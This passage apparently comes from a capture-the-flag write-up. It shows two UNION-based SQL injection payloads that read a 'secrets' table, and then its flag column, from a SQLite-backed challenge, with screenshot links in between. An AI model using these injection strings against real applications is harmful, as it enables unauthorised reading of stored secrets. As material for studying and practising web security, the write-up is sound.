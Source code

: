 ```sql
something ' union select 1,2,3,(select * from secrets),5,6,7,8 FROM sqlite_master; -- -
```

![https://bit.ly/37W4TmR](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/178ea35a-5a45-4c06-8985-1ef46106a01c/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20201213%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20201213T091209Z&X-Amz-Expires=86400&X-Amz-Signature=8e5e39fbe1769114cbfd934ad1a5b4697b94112de977aa75a209a0f0f86fd2b4&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)

A lucky guess for the flag column gives the flag:

```sql
something ' union select 1,2,3,(select flag from secrets),5,6,7,8 FROM sqlite_master; -- -
```

![https://bit.ly/3gFCoxJ](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/9104547b-2d39-4d5d-a6a3-2ec0617061bb/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20201213%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20201213T091221Z&X-Amz-Expires=86400&X-Amz-Signature=c9ca3d06faaa6034983e6327d03fa0d7f95d8a6fe5e2a85165f80e28bf522a18&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22)

